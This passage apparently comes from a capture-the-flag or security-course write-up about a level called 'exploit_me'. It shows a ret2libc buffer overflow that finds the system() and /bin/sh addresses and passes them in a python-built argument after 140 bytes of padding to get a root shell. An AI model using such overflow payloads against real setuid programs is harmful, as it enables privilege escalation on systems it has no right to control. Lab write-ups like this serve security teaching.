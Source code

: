 <img src="./Ressources/psystem.png" width="500"/>

now we need to find the _/bin/sh_ address:

<img src="./Ressources/proc_map.png" width="500"/>

Then we run the command : _./exploit_me $(python -c 'print "A"\*140 + "\x60\xb0\xe6\xb7" + "AAAA" + "\x58\xcc\xf8\xb7"')_

<img src="./Ressources/root.png" />
